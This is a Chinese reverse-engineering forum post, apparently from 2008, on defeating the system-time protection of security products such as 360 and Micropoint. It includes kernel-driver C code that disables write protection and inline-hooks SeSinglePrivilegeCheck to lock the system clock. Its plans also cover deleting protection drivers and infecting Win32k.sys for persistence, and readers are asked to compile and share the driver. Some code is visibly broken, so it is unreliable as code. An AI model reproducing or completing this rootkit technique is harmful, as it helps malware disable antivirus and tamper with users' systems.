


# fuck all the "time protected" Software(1)

> 原文：[`www.pediy.com/kssd/pediy10/58826.html`](https://www.pediy.com/kssd/pediy10/58826.html)

**置顶**：在家装 DDK 死活装不上,装 vc 6.0 也出错,256 的小内存跑啊跑;作罢,一个月内不能编译驱动  
**心情**：想哭...  
**主题**：  
  探讨修改系统时间(R0)，anti 所有的安全软件(eg: 360TimeProt.sys, Micropoint,antiarp.sys...)  
    
  
**正文**：  
   
**<一> **  
     关于修改系统时间不是突发奇想的,之前好多病毒木马都是把时间调到很久以前来使部分安全软件过期(eg 卡巴,微点),用的伎俩不过是调用 R3 的几个 API,或者直接来个 bat,改改注册表之类的...  
  
     所以很多安全软件意识到这点.先出手的便是 360 安全卫士,不过大致看来也就是 HOOK SSDT 中的**ZwSetSystemTime**,只要能恢复 SSDT(若能顺利加载驱动,恢复就简单啦.若在 R3,想获得系统高 2GB 的地址访问权限是越来越难咯,好多 HIPS 都封的死死的; 当然不排除利用重启的时间加载驱动,或者感染 Win32k.sys、利用第 3 方软件的漏洞提升权限...晕,偏题了 ),也就破除了它的屏障. 对于微点这样有个**KTIMER**的就需要投递**APC**了...  
  
    不过恢复 SDT 毕竟不是最好的办法,所以我们绕过 SDT,自己实现 ZwSetSystemTime,甚至**KeSetSyetemTime**,这样就可以修改时间了(但最终是系统在 R0 不断改变**SharedUserData **这个区域里面的系统时间.我们也可以直接修改这个 R0、R3 共享区来达到修改锁定时间的目的;或者直接写进**CMOS**).  
    
btw：关于**360TimeProt.sys**,已有好多大牛逆出了源码,原理很简单,给个链接科普:  
[`www.debugman.com/read.php?tid=770`](http://www.debugman.com/read.php?tid=770)  
  
\------------------------------------------------------------------------------------------------    
**<二>**  
  关于**ZwSetSystemTime 的执行流程**,偶还是简单的说下吧,虽然笔记记了一大堆,但又不能直接 copy 出来,还得慢慢打...  
  
NTSTATUS  
NTAPI  
NtSetSystemTime(  
  IN PLARGE\_INTEGER SystemTime,   // 需要设置的时间  
  OUT PLARGE\_INTEGER PreviousTime OPTIONAL // 保存以前的时间  
  )  
/\*++  
调用**ExGetPreviousMode**得到当前的 PreviousMode,检查其是 R0 or R3.  
**if(PreviousMode != KernelMode) {...}**但不管是哪个,目的都是把传进来的**SystemTime**赋予给一个**LARGE\_INTEGER **局部变量 **NewSystemTime**(只不过 R3 下需要进一步的安全检测,保证传进来的参数在 R0 中可读,传出去的参数在 R0 中可写,用到**ProbeForReadLargeInteger**、**ProbeForWriteLargeInteger**)－－＞接下来的一步很关键,调用**SeSinglePrivilegeCheck**函数来检查当前用户是否有权限修改系统时间(参见 WRK 和 IDA; Windbg 出来的见下)－－＞ 转化时间并 set it in HAL,调用 3 个函数:**ExSystemTimeToLocalTime**、**RtlTimeToTimeFields**、**HalSetRealTimeClock**－－＞最后调用**KeSetSystemTime**来设置系统时间,若传进来的 PreviousTime 有效,则把旧的时间装在它里面,返回 status  
\--\*/  
  
/\*  
lkd> u 808a1f7e l 45  
nt!SeSinglePrivilegeCheck:  
808a1f7e 8bff            mov     edi,edi   ;  偶就修改了这开头 5 字节的内容  
808a1f80 55              push    ebp       ;  太容易被查出来咯; 不过可以自己再  
808a1f81 8bec            mov     ebp,esp   ;  深入深入~  
808a1f83 83ec24          sub     esp,24h  
808a1f86 8365ec00        and     dword ptr \[ebp-14h\],0  
808a1f8a 33c0            xor     eax,eax  
808a1f8c 40              inc     eax  
808a1f8d 8945dc          mov     dword ptr \[ebp-24h\],eax  
808a1f90 8945e0          mov     dword ptr \[ebp-20h\],eax  
808a1f93 8b4508          mov     eax,dword ptr \[ebp+8\]  
808a1f96 8945e4          mov     dword ptr \[ebp-1Ch\],eax  
808a1f99 8b450c          mov     eax,dword ptr \[ebp+0Ch\]  
808a1f9c 8945e8          mov     dword ptr \[ebp-18h\],eax  
808a1f9f 8d45f0          lea     eax,\[ebp-10h\]  
808a1fa2 50              push    eax  
808a1fa3 e84cbdffff      call    nt!SeCaptureSubjectContext (8089dcf4)  
808a1fa8 ff7510          push    dword ptr \[ebp+10h\]  
808a1fab 8d45f0          lea     eax,\[ebp-10h\]  
808a1fae 50              push    eax  
808a1faf 8d45dc          lea     eax,\[ebp-24h\]  
808a1fb2 50              push    eax  
808a1fb3 e8a0bcffff      call    nt!SePrivilegeCheck (8089dc58)  
...  
\*/  
  
而我这里的思路是关注**SeSinglePrivilegeCheck**,在它里面实现 inline hook 来拒绝其他进程修改系统时间. 注意看 WRK  
  
BOOLEAN STDCALL  
SeSinglePrivilegeCheck (  
  IN LUID PrivilegeValue,  
  IN KPROCESSOR\_MODE PreviousMode  
  )  
  
全局变量**SeSystemtimePrivilege**从 LARGE\_INTEGER 转化为**LUID**后作为其参数,我们只要在自己的函数中判断它就可以达到效果啦.  
  
  
  
对于**KeSetSystemTime**,它主要是修改**0xffdf0000**区域:  
  
/\* Set the new system time \*/  
SharedUserData->SystemTime.LowPart = NewTime->LowPart;  
SharedUserData->SystemTime.High1Time = NewTime->HighPart;  
SharedUserData->SystemTime.High2Time = NewTime->HighPart;  
  
然后 Update system boot time  
  
/\* Calculate the difference between the new and the old time \*/  
DeltaTime.QuadPart = NewTime->QuadPart - OldTime->QuadPart;  
KeBootTime.QuadPart += DeltaTime.QuadPart;  
KeBootTimeBias = KeBootTimeBias + DeltaTime.QuadPart;  
  

引用: SharedUserData 是操作系统为每个进程提供的个共享数据结构，里面存放有很多重要的系统信息，如 TickCount、系统时间、SystemRoot 等...  
  
其在 DDK 定义为：  
#define KI\_USER\_SHARED\_DATA         0xffdf0000  
#define SharedUserData  ((KUSER\_SHARED\_DATA \* const) KI\_USER\_SHARED\_DATA)  
  
它在内核中的地址是 0xffdf0000，操作系统通过共享映射把这个结构以只读方式映射到每个进程的 0×7ffe0000 的地方。 

当然从 KeSetSystemTime 下手也是可以的.这样更深一层.  
\--------------------------------------------------------------------------------  
<三>  
综上,写了个**inine hook SeSinglePrivilegeCheck**的驱动.因为无 DDK 编译,所以只有代码,不过应该能编译通过,思路出来了，代码也有了,编译调试需要你自己去弄了(如果调试通过了,麻烦把 sys 帖出来哦,谢谢了啊 )  
  
/\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*  
\* Name   : AntiTimeProtected.c  
\* Author : sudami \[xiao\_rui\_119@163.com\]    
\* Time   : 08/01/24    v 1.0  
\*   
\* Comment:  
\*                     
\*  ZwSetSystemTime |-->SeSinglePrivilegeCheck-->SePrivilegeCheck  
\*                  |-->KeSetSyetemTime  
\*  
\*  修改并锁定系统时间,fuck all the "time protected" Software...  
\*  
\*  1. 自己实现 ZwSetSystemTime  
\*  2. inline hook 系统的 SeSinglePrivilegeCheck 函数.在其内部的某个地方  
\*  跳转到定义的 fake 函数中,判断传进来的第一个参数--PrivilegeValue.若为  
\*  SeSystemtimePrivilege,则返回 FALSE,表明当前用户无权限修改系统时间;  
\*  否则跳转到原函数中继续执行.\如果在函数的开头 5 字节修改,可能不需要考  
\*  虑堆栈平衡.但若深入到内部再跳转,可能需要自己去平衡堆栈.所以要仔细  
\*  考虑. 当然可以多处 inlieHOOK,eg.进到 SePrivilegeCheck.  
\*  3. FSD 强行删除保护时间的驱动,生成相同驱动占炕   
\*  4. 启动一个 thread 反复 inline HOOK, 另一个 thread 不断检测 KTIMER 是否被摘除  
\*  5. 感染 Win32k.sys,随系统启动 sys.定期修改系统时间(需要在自己的 inline   
\*  hook 中排除自己)  
\*  
\*  btw:   
\*  修改系统时间最终是系统在 R0 不断改变 SharedUserData 这个区域里面的系统时间.我们  
\*  也可以直接修改这个 R0、R3 共享区来达到修改锁定时间的目的;或者直接写进 CMOS...  
\*  偶很菜,就写个肤浅的练练手,嘿嘿~  
\*  
\*                          <要解决的问题>  
\*  1. 得到 SeSinglePrivilegeCheck、ExSystemTimeToLocalTime、RtlTimeToTimeFileds、  
\*  HalSetRealTimeClock、KeSetSyetemTime 在系统中的实际地址-->映射 ntoskrnl.exe 到  
\*  进程的虚拟地址空间,遍历 EAT 得到部分导出函数的 RVA(或者根据重定位信息,IDA 反汇编  
\*  ntoskrnl.exe,得到和指定函数相关的 2 进制,在 reloc 中搜索之),再加上系统内核的地址  
\*  这样就得到这些函数的实际地址啦.  
\*  2. 锁定系统时间中,需要考虑可能的堆栈平衡   
\*  
\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*/  
![  
  
关键部分如下:  
  
//  
// 开始 inline hook  
//  
void StartHook ()  
{   
// 保存原函数的前 5 字节内容  
    RtlCopyMemory (g\_OrigCode, (BYTE\*)SeSinglePrivilegeCheck, 5);  
    \*( (ULONG\*)(g\_HookCode + 1) ) = (ULONG)fake\_SeSinglePrivilegeCheck - (ULONG)SeSinglePrivilegeCheck - 5;  
  
// 禁止系统写保护，提升 IRQL 到 DPC，然后在 PspTerminateThreadByPointer 中实现 Inline Hook  
    WPOFF();  
    oldIrql = KeRaiseIrqlToDpcLevel();  
  
// 替换 SeSinglePrivilegeCheck 的前 5 字节  
    RtlCopyMemory ( (BYTE\*)SeSinglePrivilegeCheck, g\_HookCode, 5 );  
    \*( (ULONG\*)(jmp\_orig\_code + 1) ) = (ULONG) ( (BYTE\*)SeSinglePrivilegeCheck + 5 );  
  
    RtlCopyMemory ( (BYTE\*)Proxy\_SeSinglePrivilegeCheck, g\_OrigCode, 5);  
    RtlCopyMemory ( (BYTE\*)Proxy\_SeSinglePrivilegeCheck + 5, jmp\_orig\_code, 7);  
  
    KeLowerIrql(oldIrql);  
  
    WPON();  
  
    g\_bHooked = TRUE;  
}  
  
//  
// 停止 inline hook  
//  
void StopHook ()  
{  
    WPOFF();  
    oldIrql = KeRaiseIrqlToDpcLevel();  
  
    RtlCopyMemory ( (BYTE\*)SeSinglePrivilegeCheck, g\_OrigCode, 5 );  
  
    KeLowerIrql(oldIrql);  
    WPON();  
  
    g\_bHooked = FALSE;  
}  
  
//  
// 跳转到我们的函数里面进行预处理  
//  
BOOLEAN  
\_\_stdcall  
fake\_SeSinglePrivilegeCheck (  
  IN LUID PrivilegeValue,  
  IN KPROCESSOR\_MODE PreviousMode  
  )  
{  
BOOLEAN Result;  
  
if (PrivilegeValue == (LUID) SeSystemtimePrivilege) {  
  
// 有进程想设置系统时间了.返回 FALSE  
// 这个可以加个判断以排除自身进程，使自己可以修改时间  
returnFALSE;  
    }  
  
    Result = Proxy\_SeSinglePrivilegeCheck (PrivilegeValue, PreviousMode);  
  
return Result;  
}  
  
//  
// 代理函数，负责跳转到原函数中继续执行  
//  
\_\_declspec (naked)   
BOOLEAN  
Proxy\_SeSinglePrivilegeCheck(  
  IN LUID PrivilegeValue,  
  IN KPROCESSOR\_MODE PreviousMode  
  )  
{  
\_\_asm {  // 共 12 字节  
        \_emit 0x90  
            \_emit 0x90  
            \_emit 0x90  
            \_emit 0x90  
            \_emit 0x90  // 前 5 字节实现原函数的头 5 字节功能  
            \_emit 0x90  // 这个填充 jmp  
            \_emit 0x90  
            \_emit 0x90  
            \_emit 0x90  
            \_emit 0x90  // 这 4 字节保存原函数+5 处的地址  
            \_emit 0x90    
            \_emit 0x90  // 因为是长转移,所以必须是 0x0080  
    }  
}  
  
////////////////////////////////////  √   ///////////////////////////////////////////   
void  
fake\_NtSetSystemTime (  
  IN PLARGE\_INTEGER SystemTime  
  )  
  
/\*++  
            
Author : sudami \[xiao\_rui\_119@163.com\]  
Time   : 08/01/24  
              
参数 :  
  SystemTime - \[IN\] 需要设置的系统时间  
              
返回 : NULL  
  
                
功能 :   
  自己实现 NtSetSystemTime,其实就是对真实 NtSetSystemTime 函数的简化.  
  调用几个其他函数而已并非完全自己实现.  
                  
\--\*/  
{  
// 省去判断是 R0 还是 R3 调用,因为函数本身在 R0 中执行  
    LARGE\_INTEGER OldSystemTime;  
    LARGE\_INTEGER NewSystemTime;  
    LARGE\_INTEGER LocalTime;  
    TIME\_FIELDS TimeFields;  
    KPROCESSOR\_MODE PreviousMode;  
  
    PreviousMode  = KeGetCurrentThread()->PreviousMode;  
    NewSystemTime = (LARGE\_INTEGER) ExAllocatePool (NonPagedPool, sizeof(LARGE\_INTEGER));  
    OldSystemTime = (LARGE\_INTEGER) ExAllocatePool (NonPagedPool, sizeof(LARGE\_INTEGER));  
    LocalTime     = (LARGE\_INTEGER) ExAllocatePool (NonPagedPool, sizeof(LARGE\_INTEGER));  
    TimeFields    = (TIME\_FIELDS)   ExAllocatePool (NonPagedPool, sizeof(TIME\_FIELDS));  
  
    NewSystemTime = \*SystemTime;  
  
/\* Make sure we have permission to change the time \*/  
if (!SeSinglePrivilegeCheck (SeSystemtimePrivilege, PreviousMode)) {  
return;  
    }  
  
/\* Convert the time and set it in HAL \*/  
    ExSystemTimeToLocalTime (&NewSystemTime, &LocalTime);  
    RtlTimeToTimeFields (&LocalTime, &TimeFields);  
    HalSetRealTimeClock (&TimeFields);  
  
/\* Now set system time \*/  
    KeSetSystemTime (&NewSystemTime, &OldSystemTime, FALSE, NULL);  
  
    ExFreePool (NewSystemTime);  
    ExFreePool (OldSystemTime);  
    ExFreePool (LocalTime);  
    ExFreePool (TimeFields);  
}

上传的附件
|  || Inline HOOK SeSinglePrivilegeCheck.rar  
 |